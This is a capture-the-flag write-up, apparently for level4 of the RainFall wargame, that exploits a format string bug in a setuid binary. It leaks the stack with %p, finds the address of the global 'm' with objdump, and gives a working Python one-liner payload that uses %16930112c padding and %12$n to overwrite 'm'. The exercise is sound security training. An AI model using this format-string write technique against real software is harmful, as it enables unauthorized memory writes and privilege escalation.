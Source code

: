 We start by opening the binary in [dogbolt](https://dogbolt.org/) here we see that it is the same vulnerability that the previous level.
However this level has a difficulty that the first one didn't have here we must put 16930116 char in `m`,
it is a problem since it exceed pipe capacity or command size.

Ok so will use the same step as the previous level first we will find the address of the buffer we write in:

```
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```

Here the buffer start at %12$p

Ok lets find m `m` with objdump :
objdump :

```
...
08049810 g     O .bss   00000004              m
...
```

address : 08049810
little endian : \x10\x98\x04\x08

And the the tricky part :
How can we put so many characters ?
The simple response is by using the printf fill like
Ok lets tried to use it :

```C
#include <stdio.h>

int main()
{
        printf("%-3c%c\n", 'a','b');
}
```

Output:

```
a  b
```

Ok so now we now to do it lets puts things to gether:
[address][16930116 - 4(address) : %16930112c][the current buffer address]
```Shell
python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit && cat /tmp/exploit | ./level4
```
